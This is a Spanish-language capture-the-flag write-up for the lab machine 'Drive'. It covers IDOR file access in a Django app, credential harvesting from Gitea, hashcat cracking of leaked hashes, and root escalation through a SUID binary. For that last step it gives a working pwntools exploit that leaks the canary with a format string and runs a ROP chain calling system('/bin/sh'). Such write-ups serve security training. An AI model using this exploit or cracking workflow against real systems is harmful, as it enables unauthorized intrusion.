Resumen de Explotación
Proceso de explotación: La máquina ejecutaba un servicio web Django en el puerto 80 con una aplicación de almacenamiento de archivos. Tras enumerar las funcionalidades de la web, descubrí una vulnerabilidad IDOR que me permitió acceder a archivos de otros usuarios mediante la manipulación del endpoint /block/.
En uno de los archivos encontré credenciales hardcodeadas que me dieron acceso SSH al usuario martin. Tras el acceso inicial, descubrí un servicio Gitea ejecutándose en el puerto local 3000. Mediante port forwarding con SSH, accedí a los repositorios de Git donde encontré un script de backup con credenciales en texto plano.
Usando estas credenciales, descomprimí un backup de base de datos SQLite que contenía hashes de contraseñas. Después de crackear los hashes con hashcat, conseguí acceso al usuario tom. En el directorio home de tom encontré un binario SUID llamado doodleGrive-cli que era vulnerable a buffer overflow.
Explotando esta vulnerabilidad mediante técnicas ROP (Return Oriented Programming), conseguí ejecutar /bin/sh con privilegios de root, completando así la escalada de privilegios. El exploit requirió bypassear el stack canary mediante una vulnerabilidad de format string y construir una cadena ROP para invocar system("/bin/sh").
Tecnologías/Exploits: Vulnerabilidad IDOR en aplicación Django, exfiltración de credenciales mediante repositorio Gitea, cracking de hashes PBKDF2-SHA256 y SHA1, buffer overflow en binario SUID, bypass de stack canary mediante format string vulnerability, ROP chain para ejecutar shell como root.
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar los servicios y puertos abiertos en la máquina objetivo:

El escaneo revela los puertos 22 (SSH), 80 (HTTP), y 3000 (HTTP). Añado drive.htb al archivo /etc/hosts para resolver el nombre de dominio.
Enumeración Web con WhatWeb
Ejecuto whatweb para obtener más información sobre las tecnologías web:
http://drive.htb [200 OK] Bootstrap, Cookies[csrftoken], Country[RESERVED][ZZ], Django,
Email[customer-support@drive.htb,support@drive.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)],
IP[10.10.11.235], JQuery[3.0.0], Script, Title[Doodle Grive],
UncommonHeaders[x-content-type-options,referrer-policy,cross-origin-opener-policy],
X-Frame-Options[DENY], X-UA-Compatible[IE=edge], nginx[1.18.0]El servidor web ejecuta nginx 1.18.0 sobre Ubuntu Linux y utiliza el framework Django. Identifico dos correos electrónicos de soporte: customer-support@drive.htb y support@drive.htb.
Enumeración de Directorios
Utilizo gobuster para descubrir rutas en la aplicación web:

Las rutas descubiertas incluyen endpoints típicos de Django como /register/, /login/, y otros relacionados con la gestión de archivos.
Análisis de la Aplicación Web
Tras registrarme y explorar la aplicación, observo que se trata de un sistema de almacenamiento de archivos similar a Google Drive. Al agregar un archivo a un grupo, veo una lista de usuarios disponibles:

Esto me proporciona una lista de usuarios potenciales del sistema que podré usar más adelante.
Archivo de Bienvenida del Administrador
Encuentro un archivo de bienvenida del administrador que sugiere contactar con el equipo de soporte:

Esta nota me hace sospechar de posibles vulnerabilidades XSS donde el administrador podría revisar los mensajes de contacto. Sin embargo, tras probar varios payloads XSS en diferentes campos de la aplicación, no consigo ningún resultado positivo.
Explotación IDOR - Acceso a Archivos de Otros Usuarios
Observo que las URLs de los archivos siguen un patrón numérico secuencial, por ejemplo: http://drive.htb/112/getFileDetail/. Esto sugiere una posible vulnerabilidad IDOR (Insecure Direct Object Reference).
Pruebo a alterar el ID del archivo en la ruta para acceder a archivos de otros usuarios:

Descubro que hay 4 archivos adicionales, pero inicialmente aparecen como protegidos al intentar acceder directamente mediante el endpoint getFileDetail.
Bypass mediante el Endpoint /block/
Experimentando con diferentes endpoints, descubro que mediante la ruta /block/ sí puedo visualizar archivos de otros usuarios sin restricciones:

Esta vulnerabilidad IDOR me permite enumerar y leer archivos que no me pertenecen. Tras revisar varios archivos, encuentro uno particularmente interesante del administrador:

El archivo contiene credenciales hardcodeadas:
martin:Xk4@KjyrYv8t194L!Mensaje Adicional Relevante
También encuentro otro mensaje que proporciona contexto adicional sobre la infraestructura:

Este mensaje sugiere que hay servicios adicionales ejecutándose internamente que podrían ser accesibles tras ganar acceso inicial al sistema.
Acceso Inicial - SSH como Martin
Con las credenciales obtenidas, consigo acceso SSH al sistema como el usuario martin:
ssh martin@drive.htbUna vez dentro, enumero los usuarios del sistema:
ls -la /hometotal 24
drwxr-xr-x 6 root root 4096 Dec 25 2022 .
drwxr-xr-x 18 root root 4096 Sep 6 2023 ..
drwxr-x--- 2 cris cris 4096 Sep 6 2023 cris
drwxr-x--- 4 git git 4096 Dec 25 2022 git
drwxr-x--- 5 martin martin 4096 Sep 11 2023 martin
drwxr-x--- 6 tom tom 4096 Sep 13 2023 tomIdentifico los usuarios cris, git, martin, y tom. El usuario git sugiere que podría haber un servicio Git ejecutándose en el sistema.
Enumeración de Servicios Locales
Utilizo ss -tuln para identificar puertos escuchando localmente:
ss -tulnDescubro que los puertos 3306 (MySQL) y 3000 están abiertos internamente. Investigando el puerto 3000 con curl, identifico que se trata de Gitea versión 1.17.4:
curl http://localhost:3000Port Forwarding SSH
Para acceder cómodamente a Gitea desde mi máquina local, configuro port forwarding mediante SSH:
ssh -L 3000:localhost:3000 martin@drive.htbAhora puedo acceder a Gitea navegando a http://localhost:3000 en mi navegador. En la interfaz de Gitea, veo varios usuarios registrados:

Exfiltración de Credenciales desde Gitea
Utilizando las credenciales de martin que ya tengo, inicio sesión en Gitea y exploro sus repositorios. Encuentro un repositorio interesante llamado DoodleGrive:

Dentro del repositorio hay varios archivos relacionados con la aplicación web. Uno de los archivos más interesantes es db_backup.sh, que contiene una contraseña hardcodeada:

H@ckThisP@ssW0rDIfY0uC@n:)Esta contraseña probablemente se utiliza para cifrar o proteger los backups de la base de datos.
Extrayendo y Analizando el Backup de Base de Datos
En el sistema, encuentro archivos de backup en una ruta específica. Utilizando 7z y la contraseña encontrada, descomprimo el backup más reciente:
7z x db_backup.tar.gz -pH@ckThisP@ssW0rDIfY0uC@n:)Dentro del backup hay una base de datos SQLite. La examino con sqlite3 y encuentro una tabla de usuarios con hashes de contraseñas:
admin:pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=
jamesMason:pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=
martinCruz:pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=
tomHands:pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=
crisDisel:pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=Estos hashes utilizan el algoritmo PBKDF2-SHA256, que corresponde al modo 10000 en hashcat:

Cracking de Hashes con Hashcat
Preparo un archivo hashes.txt con todos los usuarios y hashes, y ejecuto hashcat:
hashcat -m 10000 hashes.txt /usr/share/wordlists/rockyou.txt --usernameMientras hashcat trabaja, continúo investigando la base de datos SQLite. En la tabla django_admin_log veo una entrada interesante que indica que tomHands cambió su contraseña:
141|2022-12-26 06:20:00.743182|23|tomHands|[{"changed": {"fields": ["Password"]}}]|6|16|2Esto sugiere que podría haber versiones antiguas de la contraseña en commits anteriores del repositorio Git.
Explorando el Historial de Git
Descargo el repositorio completo como ZIP desde Gitea y lo analizo localmente con VSCode. Explorando el historial de commits, encuentro que en una versión anterior se utilizaba un método de hashing diferente (SHA1 en lugar de PBKDF2-SHA256):
jamesMason:sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
martinCruz:sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
tomHands:sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
crisDisel:sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
admin:sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3Los hashes SHA1 son mucho más débiles que PBKDF2-SHA256. Lanzo hashcat contra estos hashes y consigo crackear el hash de tomHands:
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7Acceso como Usuario Tom
Con la contraseña recuperada, consigo acceso al usuario tom:
su tom
# contraseña: johnmayer7En el directorio home de tom encuentro la flag de usuario y un archivo README.txt interesante:
Hi team
after the great success of DoodleGrive, we are planning now to start working on our new project:
"DoodleGrive self hosted", it will allow our customers to deploy their own documents sharing platform
privately on their servers...
However in addition with the "new self Hosted release" there should be a tool(doodleGrive-cli) to help
the IT team in monitoring server status and fix errors that may happen.
As we mentioned in the last meeting the tool still in the development phase and we should test it properly...
We sent the username and the password in the email for every user to help us in testing the tool and make it better.
If you face any problem, please report it to the development team.
Best regards.El mensaje menciona una herramienta CLI llamada doodleGrive-cli que todavía está en desarrollo.
Análisis del Binario SUID
Encuentro un binario con permisos SUID en el directorio de tom:
ls -la doodleGrive-cli-rwSr-x--- 1 root tom 887240 Sep 13 2023 doodleGrive-cliEl binario pertenece a root y tiene el bit SUID activado, lo que significa que se ejecutará con privilegios de root. Esto lo convierte en un objetivo perfecto para la escalada de privilegios.
Al ejecutarlo, solicita credenciales:
./doodleGrive-cli[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
tom
Enter password for tom:
johnmayer7
Invalid username or password.Análisis del Binario con Ghidra
Exporto el binario a mi máquina local y lo analizo con Ghidra. Tras descompilar el código, puedo buscar strings fácilmente usando VSCode. Encuentro credenciales hardcodeadas en el binario:
moriarty:findMeIfY0uC@nMr.Holmz!Sin embargo, incluso con estas credenciales correctas, el binario no parece ofrecer funcionalidad útil para escalar privilegios directamente. Tras probar varias técnicas sin éxito, consulto recursos externos y descubro que la vía intencionada es explotar una vulnerabilidad de buffer overflow en el binario.
Escalada de Privilegios - Buffer Overflow ROP
Analizando el código descompilado en Ghidra, identifico la vulnerabilidad en la función principal:
char username_input[16];
char password_input[56];
long local_10;
local_10 = *(long *)(in_FS_OFFSET + 0x28);
setenv("PATH","",1);
setuid(0);
setgid(0);
puts("[!]Caution this tool still in the development phase...please report any issue to the development team[!]");
puts("Enter Username:");
fgets(username_input, 0x10, (FILE *)stdin);
sanitize_string(username_input);
printf("Enter password for ");
printf(username_input, 0x10);
puts(":");
fgets(password_input, 400, (FILE *)stdin);El problema crítico está aquí: el buffer password_input tiene un tamaño de 56 bytes, pero la función fgets lee hasta 400 bytes del input. Esto permite un buffer overflow que puedo explotar.
Además, hay otra vulnerabilidad: el printf(username_input) sin format string especificado es vulnerable a ataques de format string, lo que me permite leer valores de la memoria, incluido el stack canary.
Carácteres Sanitizados
El binario sanitiza el input eliminando ciertos carácteres tanto en username como en password:
local_29[0] = '\0';
local_29[1] = '\n';
local_29[2] = '\'';
local_29[3] = ' ';
local_29[4] = '|';
local_29[5] = '/';
local_29[6] = '{';
local_29[7] = '\\';
local_29[8] = 0x3b;Esto significa que no podré usar estos carácteres en mi payload, lo cual es importante tener en cuenta al construir el exploit.
Protecciones del Binario
Verifico qué protecciones de seguridad tiene el binario usando checksec:
checksec --file=doodleGrive-cliRELRO STACK CANARY NX PIE RPATH RUNPATH Symbols FORTIFY
Partial RELRO Canary found NX enabled No PIE No RPATH No RUNPATH 1960 Symbols NoLas protecciones activas son:
- Stack Canary: Hay un canary en el stack que detecta buffer overflows
- NX (No Execute): El stack no es ejecutable, impidiendo la ejecución directa de shellcode
Las protecciones desactivadas son:
- PIE (Position Independent Executable): Las direcciones de memoria son fijas, lo que facilita encontrar gadgets ROP
Comprobación del Stack Canary
El binario comprueba el canary al final de la función main:
puts("Invalid username or password.");
LAB_0040231e:
if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
__stack_chk_fail();
}
return 0;Si el valor del canary no coincide con el valor original, el programa termina con __stack_chk_fail(). Por lo tanto, necesito filtrar el valor del canary para bypassear esta protección.
Estrategia de Explotación
Mi estrategia será:
- Usar la vulnerabilidad de format string para filtrar el stack canary
- Construir un payload que sobrescriba el return address con una cadena ROP
- Usar gadgets ROP para ejecutar
system("/bin/sh")con privilegios de root
Filtrando el Stack Canary
Primero necesito encontrar dónde está el canary en la memoria. Uso ropper para buscar gadgets útiles:
ropper --file doodleGrive-cli --string "/bin/sh"Strings
=======
Address Value
------- -----
0x00497cd5 /bin/shPerfecto, hay una string /bin/sh en la dirección 0x00497cd5 que puedo usar.
Ahora busco el gadget pop rdi; ret que necesito para cargar argumentos en la arquitectura x86-64:
ropper --file doodleGrive-cli --search "pop rdi; ret"[INFO] File: doodleGrive-cli
0x0000000000401912: pop rdi; ret;Encuentro el gadget en 0x401912. La dirección 0x401913 será simplemente el ret (útil para alinear el stack).
Identificando la Posición del Canary
Uso gdb para encontrar dónde se comprueba el canary y experimento con format strings para filtrarlo:
gdb ./doodleGrive-cli(gdb) break *main+314
Breakpoint 1 at 0x402327
(gdb) r
Starting program: /home/asd/machines/drive/doodleGrive-cli
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
%15$lx
Enter password for b572293e61096b00:
AAAA
Invalid username or password.
Breakpoint 1, 0x0000000000402327 in main ()
(gdb) x/x $rcx
0xb572293e61096b00: Cannot access memory at address 0xb572293e61096b00Enviando %15$lx como username, el programa devuelve b572293e61096b00, que es el valor del canary (reconocible por el byte nulo al final: 00). Compruebo en el breakpoint que este valor coincide con lo que está en el registro rcx, confirmando que he filtrado correctamente el canary.
Calculando el Offset
Ahora necesito determinar el offset exacto donde debo colocar el canary en mi payload. Genero un patrón único con msf-pattern_create:
msf-pattern_create -l 200Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5AgEjecuto el binario en gdb con este patrón como password:
(gdb) r
Enter Username:
AAAA
Enter password for AAAA:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Invalid username or password.
Breakpoint 1, 0x0000000000402327 in main ()
(gdb) x/x $rcx
0x4130634139624138: Cannot access memory at address 0x4130634139624138El valor en rcx es 0x4130634139624138, que forma parte de mi patrón. Calculo el offset:
msf-pattern_offset -q 4130634139624138[*] Exact match at offset 56El offset es exactamente 56 bytes, lo que coincide con el tamaño del buffer password_input.
Script de Explotación
Con toda esta información, construyo el siguiente script de Python usando pwntools:
from pwn import *
elf = ELF("./doodleGrive-cli")
# addresses
pop_rdi = p64(0x401912) # ropper -f ./doodleGrive-cli --search "pop rdi"
ret = p64(0x401913) # just return from previous
bin_sh = p64(0x497cd5) # strings -a -t x doodleGrive-cli | grep bin/sh
if args.SSH:
ssh = ssh(host="drive.htb", user="tom", password="johnmayer7")
p = ssh.process("/home/tom/doodleGrive-cli")
prompt = ""
else:
p = elf.process()
prompt = "$ "
# format string vuln to leak canary
p.readuntil(b"Enter Username:\n")
p.sendline(b"%15$lx")
p.readuntil(b"Enter password for ")
leak = p.readuntil(b":\n").strip(b"\n:")
canary = int(leak, 16)
info(f"Leak canary: 0x{canary}")
# build payload to ROP system("/bin/sh")
payload = b"A" * 56 # offset to canary
payload += p64(canary) # leaked canary
payload += b"A" * 8 # junk for stack pointer
payload += ret # ret for stack alignment
payload += pop_rdi # go to pop rdi gadget
payload += bin_sh # address of "/bin/sh" to pop into RDI
payload += p64(elf.sym.system) # return to system
payload += p64(elf.sym.exit) # return to exit
p.sendline(payload)
# clear message
p.readuntil(b"Invalid username or password.")
# reset path cleared by binary
p.sendline(b"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin")
p.interactive(prompt=prompt)El script realiza las siguientes acciones:
- Filtra el stack canary usando la vulnerabilidad de format string (
%15$lx) - Construye un payload con 56 bytes de relleno hasta llegar al canary
- Inserta el canary filtrado para bypassear la comprobación
- Añade 8 bytes adicionales de relleno para el saved frame pointer
- Inserta un gadget
retpara alinear el stack (requerido en sistemas modernos) - Construye una cadena ROP:
pop rdi; "/bin/sh"; system() - Termina con
exit()para una terminación limpia - Restaura la variable PATH que el binario borra con
setenv("PATH","",1)
Ejecución del Exploit
Ejecuto el script con el argumento SSH para explotar el binario directamente en la máquina objetivo:
python3 bofrop.py SSH[*] '/home/asd/machines/drive/doodleGrive-cli'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
[+] Connecting to drive.htb on port 22: Done
[*] tom@drive.htb:
Distro Ubuntu 20.04
OS: linux
Arch: amd64
Version: 5.4.0
ASLR: Enabled
[+] Starting remote process None on drive.htb: pid 2044
[*] Leak canary: 0x9797313087432205056
[*] Switching to interactive mode
# whoami
root
# cat /root/root.txt
[FLAG REDACTED]El exploit tiene éxito y consigo una shell como root, completando la escalada de privilegios y permitiéndome leer la flag de root.